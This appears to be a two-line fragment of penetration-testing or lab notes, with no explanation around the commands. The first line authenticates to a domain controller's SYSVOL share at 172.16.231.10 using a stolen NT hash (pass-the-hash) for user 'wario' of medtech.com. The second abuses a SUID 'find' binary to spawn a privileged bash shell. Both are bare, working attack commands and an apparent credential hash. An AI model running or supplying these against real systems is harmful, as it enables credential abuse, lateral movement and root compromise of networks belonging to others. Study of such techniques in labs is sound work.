smbclient //172.16.231.10/SYSVOL -U 'medtech.com/wario%fdf36048c1cf88f5630381c5e38feb8e' --pw-nt-hash

find /home/ -exec "/usr/bin/bash" -p \;
.